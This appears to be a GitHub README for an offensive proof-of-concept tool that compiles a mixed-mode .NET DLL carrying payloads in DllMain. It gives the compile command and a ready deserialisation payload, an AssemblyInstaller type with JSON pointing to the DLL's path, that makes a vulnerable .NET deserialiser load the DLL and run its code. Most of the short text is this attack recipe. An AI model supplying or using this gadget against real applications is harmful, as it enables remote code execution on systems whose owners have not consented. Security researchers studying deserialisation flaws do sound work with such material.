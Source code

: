 # MixedUp
Mixed Mode Assembly PoC with sample payloads in DLLMain

## Compile

`cl /clr /LD MixedAssembly.cpp -o MixedAssembly64.dll`

## Calling

### Deserialisation example

Type: `'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=0.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a'`

JSON: `'{"Path":"file:///c:/users/public/documents/MixedAssembly64.dll","CommandLine":["a","a"],"UseNewContext":false}'`

## To do

- Work out whether it is possible to accept commandline arguments
